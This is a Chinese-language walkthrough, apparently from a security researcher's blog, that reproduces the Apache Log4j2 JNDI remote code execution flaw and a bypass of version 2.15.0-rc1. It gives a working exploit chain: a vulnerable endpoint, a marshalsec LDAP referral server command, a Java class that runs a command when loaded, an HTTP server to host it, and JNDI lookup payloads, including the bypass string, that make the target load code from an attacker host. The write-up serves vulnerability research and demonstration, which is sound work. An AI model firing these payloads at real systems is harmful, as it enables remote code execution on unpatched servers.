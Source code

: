 ```yaml
---
layout: about
category: about
wrench: 2021-12-28
toc: true
Researchname: Apache Log4J2 RCE复现历程
desc: 「Apache Log4j2」
author: Bin4xin
permalink: /about/Apache-Log4j2-RCE-WalkThrough/
---
```


## [Apache Log4j-v2.x-x RCE](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j)

> 影响版本：
>
> Apache Log4j 2.x <= 2.15.0-rc1

### Apache Log4j 2.x < 2.15.0-rc1 RCE

#### 环境准备

- 标题仓库中demo.jar(更接近实际渗透环境)
- 或者[<del>idea代码直接调试</del>](https://github.com/tangxiaofeng7/apache-log4j-poc/)
  - *Tips:2021-12-21更新*：
  - 原仓库作者已删除，我这里仓库重新上传了一份，[apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j/apache-log4j-poc)

```
[apache-log4j-poc]-git:(main)>git remote -v
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (fetch)
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (push)
```

> 值得注意的是：
>
> @apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
> java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

#### 分析环境

把demo.jar拉到jd-gui中反编译：

- `com.example.log4j2_rce.Log4j2RceApplication`代码如下所示：

```java
@PostMapping({"/hello"})
public String hello(String payload) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("{}", payload);
        logger.info("{}", payload);
        logger.info(payload);
        logger.error(payload);
        return "ok";
        }
```

访问路由为hello，post`payload`参数；

#### 尝试

```bash
# 启web
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

直接访问加上payload进行攻击：

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![log4j_poc_success.png](https://s2.loli.net/2021/12/15/ULolm84r2h5yeJS.png)

### Apache Log4j 2.x >= 2.15.0-rc1 RCE

#### 环境准备

- 快速开始：
- 修改[idea代码直接调试apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/pom.xml)
  代码版本为`<version>2.15.0-rc1</version>`

```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <!--<version>2.14.1</version>-->
  <version>2.15.0-rc1</version>
</dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<!--<version>2.14.1</version>-->
<version>2.15.0-rc1</version>
</dependency>
```

- 我这里是下载好的[Log4j 2.15.0-rc1](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)用maven编译好后本地安装到仓库，所以不会报错；
  - [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)

尝试payload运行控制台返回：`23:05:26.715 [main] ERROR log4j - ${jndi:ldap://192.168.3.64:1389/dnslog}`，貌似已经修复了；
但是我们经过手动添加一些选项配置仍然是可以绕过的：

- 添加[src/resources/log4j2.xml](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/src/resources/log4j2.xml)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration status="OFF" monitorInterval="30">
  <appenders>
    <console name="Console" target="SYSTEM_OUT">
      <PatternLayout pattern="%m{lookups}%n"/>
    </console>
  </appenders>

  <loggers>
    <root level="all">
      <appender-ref ref="Console"/>
    </root>
  </loggers>
</configuration>
```

- `<PatternLayout pattern="%m{lookups}%n"/>`开启lookup；
- 尝试打印info、debug之类的信息确定配置文件已加载；

```bash
logger.error("hello,error");
logger.info("hello,info");
logger.debug("hello,debug");
#输出如下：
hello,error
hello,info
hello,debug

Process finished with exit code 0
```

#### Bypass攻击

payload：

```
${jndi:ldap://127.0.0.1#.4ra1n.love:1389/badClassName}
```

具体的绕过以及RCE分析可参考[RCE](https://xz.aliyun.com/t/10689#toc-3)和[分析](https://xz.aliyun.com/t/10689#toc-4)；

![截屏2021-12-28 上午9.44.15.png](https://s2.loli.net/2021/12/28/SdgnR1A93FV5W6l.png)

## 限制

- 目前暂时只知道jdk高版本会报错：

```
[main] ERROR log4j - Reference Class Name: foo
```

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)
- [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649)
- [浅谈Log4j2之2.15.0版本RCE](https://xz.aliyun.com/t/10689)
- [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)
